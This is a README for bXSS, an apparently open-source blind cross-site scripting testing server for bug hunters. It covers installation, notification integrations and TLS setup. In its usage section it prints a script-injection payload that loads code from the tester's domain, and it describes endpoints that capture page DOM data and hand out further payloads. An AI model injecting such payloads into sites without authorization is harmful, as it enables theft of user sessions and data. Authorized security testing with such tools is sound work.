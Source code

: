 # [bXSS](https://github.com/LewisArdern/bXSS)

<a href="https://codeclimate.com/github/LewisArdern/bXSS/maintainability"><img src="https://api.codeclimate.com/v1/badges/a8e30934a0be1952891c/maintainability" /></a>
<a href="https://lgtm.com/projects/g/LewisArdern/bXSS/context:javascript"><img alt="Language grade: JavaScript" src="https://img.shields.io/lgtm/grade/javascript/g/LewisArdern/bXSS.svg?logo=lgtm&logoWidth=18"/></a>

bXSS is a utility which can be used by bug hunters and organizations to identify [Blind Cross-Site Scripting](https://ardern.io/2017/12/10/blind-xss/).

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

## Baseline Requirements

- A server you control
- A usable domain
- Node.js and Express

## Optional Requirements

- A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
- A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
- A [Twilio Account](https://www.twilio.com/sms) (Optional)
- A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
- A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
- A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)
- A [Twitter Developer Account](https://developer.twitter.com/en/apply/user) (Optional)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port = Port to run the Node.js app e.g 3030
  - Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b>
    - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
    - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
    - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
    - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
  - Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b>
    - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
    - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
    - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
  - Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b>
    - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
    - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
  - Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b>
    - Steps to create a bot:
      - Visit https://discordapp.com/developers/applications/
      - Create a new application (e.g bXSSForCompany)
      - Make a note of your CLIENT ID
      - Select 'Bot'
        - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
      - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
      - Select the server you want your bot to join and authorize
      - Update the following values below for the bot to post to the 'text channel' e.g ('general')
    - config.discord.token = 'your bot token'
    - config.discord.channel = 'channel you want it to join, e.g general'
  - Twitter <b>(Optional, if you don't want to use Twitter just delete all Twitter references from the config)</b>
    - config.twitter.consumer_key = API Key
    - config.twitter.consumer_secret = API Secret Key
    - config.twitter.access_token_key = Application Access Token
    - config.twitter.access_token_secret = Application Access Token Secret
    - Permissions (Write)
    - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
  - Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>
    - config.gmail.user = Gmail Username
    - config.gmail.pass = Gmail Password
    - config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
    - config.gmail.from = Who sent the message, usually Gmail Username
  - Rename configExample.js to config.js
- Start your app (depending on your preference)
  - node app.js
  - pm2 start app.js
  - nodemon app.js

## Additional Steps (Optional)

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem
- Start your app (depending on your preference)
  - node app.js
  - npm2 start app.js
  - nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has five core functions to utilize:

- POST - /m (Captures DOM information)
- GET - /m (Loads the payload)
- GET - /mH (Captures HTTP interactions)
- Payloads - /payloads (Gives payloads you can use for testing blind xss)
- Everything else - Loads alert(1)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
